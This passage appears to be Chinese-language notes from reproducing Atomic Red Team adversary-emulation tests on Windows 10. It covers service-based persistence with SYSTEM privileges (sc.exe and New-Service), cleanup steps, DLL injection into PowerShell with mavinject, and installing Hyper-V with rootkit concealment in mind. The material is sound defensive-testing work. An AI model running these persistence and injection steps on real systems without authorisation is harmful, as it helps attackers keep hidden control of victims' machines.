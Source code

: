红队可以通过修改注册表或者使用工具集来修改配置进行服务安装.服务可以由administrator创建但是运行后拥有system权限.红队也可以使用Service Execution来直接运行服务
###### 测试1,创建一个新的服务
```
sc.exe create #{service_name} binPath= #{binary_path}
sc.exe start #{service_name}
```
就是
```
sc.exe create mortytest binPath= E:\pythonProject\atomic-red-team\atomics\T1050\bin\AtomicService.exe
sc.exe start mortytest
```
运行后进程中仍可以看到AtomicService.exe

清除痕迹
```
sc.exe stop mortytest
sc.exe delete mortytest
```
win10成功复现
###### 测试2 Service Installation PowerShell Installs A Local Service using PowerShell
安装服务
```
New-Service -Name "#{service_name}" -BinaryPathName "#{binary_path}"
Start-Service -Name "#{service_name}"
```
也就是
```
New-Service -Name "mortytest" -BinaryPathName "E:\pythonProject\atomic-red-team\atomics\T1050\bin\AtomicService.exe"
Start-Service -Name "mortytest"
```
运行后进程中仍可以看到AtomicService.exe

清除
```
Stop-Service -Name "mortytest"
(Get-WmiObject Win32_Service -filter "name='mortytest'").Delete()
```
win10成功复现
### T1100 - Web Shell
通过使用webshell来维持控制,demo略

win10成功复现
### T1179 - Hooking
###### 测试1 Hook PowerShell TLS Encrypt/Decrypt Messages
```
mavinject $pid /INJECTRUNNING C:\Users\john\Desktop\T1179x64.dll
curl https://www.baidu.com
```
win10成功复现
### T1062 - Hypervisor
虚拟机
###### 测试1 Installing Hyper-V Feature
使用powershell来检查Hyper-v是否被安装,如果已经安装,就创建虚拟机,通常使用rootkit来隐藏
```
Get-WindowsFeature -Name Hyper-V -ComputerName #{hostname}
Install-WindowsFeature -Name Hyper-V -ComputerName #{hostname} -IncludeManagementTools
New-VM -Name #{vm_name} -MemoryStartupBytes 1GB -NewVHDPath #{file_location} -NewVHDSizeBytes 21474836480
```
这个应该可以
### Valid Accounts